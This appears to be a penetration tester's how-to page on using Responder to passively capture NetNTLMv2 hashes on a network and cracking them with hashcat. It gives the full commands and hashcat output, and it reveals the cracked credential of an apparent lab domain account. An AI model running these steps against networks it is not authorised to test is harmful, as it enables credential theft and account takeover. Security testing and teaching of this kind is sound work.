


+++
title = "Responder + Hashcat"
menuTitle = "Responder"
weight = 40
+++



## 1. Easy Creds Early On
Usually something I'll throw up early as a passive credential harvester and just let it collect what i can while I do host/service discovery.

`sudo /opt/Responder/Responder.py -I enp0s10f0`


## 2. Hashcat FTW!
You'll get all sorts of data back from Responder and not all of it will be useful to you.  *NTLMv2-SSP* hashes can be cracked using a dictionary attack provided you have a good wordlist.

Catptured hashes are located in the */opt/Responder/logs* directory

`ls -lah /opt/Responder/logs/*.txt`

```bash
-rw-r--r-- 1 root root 703 Mar  9 14:57 SMB-NTLMv2-SSP-fe80::a9cb:9e69:758d:bf41.txt
```

First you need to make sure you know which mode hashcat needs to run in.

`hashcat --help | grep -i ntlmv2`

```bash
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
```

Now you can point hashcat at your has.txt file and specify your wordlist.  Try the *xato-net-10-million-passwords* list.

`hashcat -m 5600 SMB-NTLMv2-SSP-fe80::a9cb:9e69:758d:bf41.txt /opt/SecLists/Passwords/xato-net-10-million-passwords.txt`

```bash
RICHARD.F::sciencerocks:98bd140c962b2ac2:b0cd1d1422851056a76c292fbc5234f5:0101000000000000002c46649752d901283d4cf4235711ba0000000002000800590033004300560001001e00570049004e002d005a004a0036004f0054003700380047004e004e00340004003400570049004e002d005a004a0036004f0054003700380047004e004e0034002e0059003300430056002e004c004f00430041004c000300140059003300430056002e004c004f00430041004c000500140059003300430056002e004c004f00430041004c0007000800002c46649752d9010600040002000000080030003000000000000000000000000020000081f51e116b571c63f95c93c75f993952028cd833ab2d3bc6fa1caf3d22d964e70a001000000000000000000000000000000000000900200063006900660073002f006d0065006400690061002d00730072007600310037000000000000000000:Security24-7
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: RICHARD.F::sciencerocks:98bd140c962b2ac2:b0cd1d1422...000000
Time.Started.....: Thu Mar  9 15:09:13 2023 (4 secs)
Time.Estimated...: Thu Mar  9 15:09:17 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/SecLists/Passwords/xato-net-10-million-passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   898.3 kH/s (1.53ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3622912/5189454 (69.81%)
Rejected.........: 0/3622912 (0.00%)
Restore.Point....: 3620864/5189454 (69.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Sen1Sen -> Scan43PW

Started: Thu Mar  9 15:09:12 2023
Stopped: Thu Mar  9 15:09:19 2023
```

### 2.1 Recover cracked Hashes
We can tell from this line *Recovered........: 1/1 (100.00%) Digests* That hashcat was able to break the password.  And if you look above the clear-text password is acctually displayed to you in a less than obvious part of the screen.
You can grab this clear-text value at any time with

`hashcat -m 5600 SMB-NTLMv2-SSP-fe80::a9cb:9e69:758d:bf41.txt --show`


### 2.2 Active Directory Credentials

* Username: `sciencerocks\richard.f`
* Password: `Security24-7`

## 3. Additional Reading
This technique was first brought to my attention by Tim Medin from Red Siege.  Tim wrote the original *nbns_spoof.rb* Metasploit module.
His research into discovering this attack vector is written here and you should read it.

[http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html](http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html)
